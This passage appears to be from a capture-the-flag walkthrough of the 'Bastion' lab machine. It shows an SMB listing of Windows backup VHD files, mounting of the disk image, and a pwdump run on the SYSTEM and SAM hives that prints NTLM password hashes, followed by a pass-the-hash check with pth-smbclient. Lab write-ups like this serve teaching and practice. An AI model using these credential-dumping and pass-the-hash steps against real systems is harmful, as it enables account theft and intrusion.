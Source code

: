 ```
smb: \WindowsImageBackup\L4mpje-PC\Backup 2019-02-22 124351\> ls
  .                                   D        0  Fri Feb 22 07:45:32 2019
  ..                                  D        0  Fri Feb 22 07:45:32 2019
  9b9cfbc3-369e-11e9-a17c-806e6f6e6963.vhd      A 37761024  Fri Feb 22 07:44:03 2019
  9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd      A 5418299392  Fri Feb 22 07:45:32 2019
  BackupSpecs.xml                     A     1186  Fri Feb 22 07:45:32 2019
  cd113385-65ff-4ea2-8ced-5630f6feca8f_AdditionalFilesc3b9f3c7-5e52-4d5e-8b20-19adc95a34c7.xml      A     1078  Fri Feb 22 07:45:32 2019
  cd113385-65ff-4ea2-8ced-5630f6feca8f_Components.xml      A     8930  Fri Feb 22 07:45:32 2019
  cd113385-65ff-4ea2-8ced-5630f6feca8f_RegistryExcludes.xml      A     6542  Fri Feb 22 07:45:32 2019
  cd113385-65ff-4ea2-8ced-5630f6feca8f_Writer4dc3bdd4-ab48-4d07-adb0-3bee2926fd7f.xml      A     2894  Fri Feb 22 07:45:32 2019
  cd113385-65ff-4ea2-8ced-5630f6feca8f_Writer542da469-d3e1-473c-9f4f-7847f01fc64f.xml      A     1488  Fri Feb 22 07:45:32 2019
  cd113385-65ff-4ea2-8ced-5630f6feca8f_Writera6ad56c2-b509-4e6c-bb19-49d8f43532f0.xml      A     1484  Fri Feb 22 07:45:32 2019
  cd113385-65ff-4ea2-8ced-5630f6feca8f_Writerafbab4a2-367d-4d15-a586-71dbb18f8485.xml      A     3844  Fri Feb 22 07:45:32 2019
  cd113385-65ff-4ea2-8ced-5630f6feca8f_Writerbe000cbe-11fe-4426-9c58-531aa6355fc4.xml      A     3988  Fri Feb 22 07:45:32 2019
  cd113385-65ff-4ea2-8ced-5630f6feca8f_Writercd3f2362-8bef-46c7-9181-d62844cdc0b2.xml      A     7110  Fri Feb 22 07:45:32 2019
  cd113385-65ff-4ea2-8ced-5630f6feca8f_Writere8132975-6f93-4464-a53e-1050253ae220.xml      A  2374620  Fri Feb 22 07:45:32 2019

		7735807 blocks of size 4096. 2788327 blocks available
```
The two vhd's at the top are very attractive targets, but the size of the download caused timeouts that
caused the download to fail at first. Using the `timeout` command and setting the value to a 
much bigger timeout allows these files to be downloaded. 

# Disk image forensics

I had trouble mounting the first disk image, 
but it turns out the second disk image was the more important one anyway, as it has the Windows 
filesystem on it.
```
root@kali:smb# guestmount --add 9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro /mnt/disk1
root@kali:smb# cd /mnt/disk1
root@kali:disk1# ls
$Recycle.Bin autoexec.bat config.sys Documents and Settings pagefile.sys PerfLogs ProgramData Program Files Recovery System Volume Information Users Windows
```
Looking around the filesystem, it appears to be a very basic install of Windows with no other programs
installed and the user L4mpje as a local administrator. We can extract the hashes for users from the 
registry using the pwdump tool. This tool uses the SECURITY and SAM hives of the registry and outputs
the user information and hashes in a format that looks like `/etc/shadow` on Linux systems, which
is what John The Ripper expects.
```
root@kali:disk1# cd Windows/System32/config
root@kali:config# pwdump SYSTEM SAM
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
```
Using pth-smbclient, we verify that the hash extracted from the SAM database matches the hash on
Bastion.